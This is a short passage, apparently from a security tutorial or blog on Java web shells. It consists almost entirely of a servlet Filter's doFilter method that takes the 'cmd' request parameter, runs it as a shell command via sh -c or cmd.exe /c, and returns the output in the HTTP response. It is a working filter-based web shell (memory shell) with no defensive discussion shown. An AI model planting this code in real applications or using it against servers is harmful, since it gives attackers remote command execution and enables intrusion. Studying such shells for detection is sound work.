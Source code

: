 ```java
    }

    public void destroy() {
    }

    @Override
    public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws ServletException, IOException {
        HttpServletRequest req = (HttpServletRequest) request;
        HttpServletResponse resp = (HttpServletResponse) response;

        if (req.getParameter("cmd") != null) {
            boolean isLinux = true;
            String osProperty = System.getProperty("os.name");
            if (osProperty != null && osProperty.toLowerCase().contains("win")) {
                isLinux = false;
            }

            String[] cmds = isLinux ? new String[]{"sh", "-c", req.getParameter("cmd")} : new String[]{"cmd.exe", "/c", req.getParameter("cmd")};
            InputStream inputStream = Runtime.getRuntime().exec(cmds).getInputStream();
            Scanner scanner = new Scanner(inputStream).useDelimiter("h3rmesk1t");
            String output = scanner.hasNext() ? scanner.next() : "";
            resp.getWriter().write(output);
            resp.getWriter().flush();
        }

        chain.doFilter(request, response);
    }
}
```

![](img/9.png)
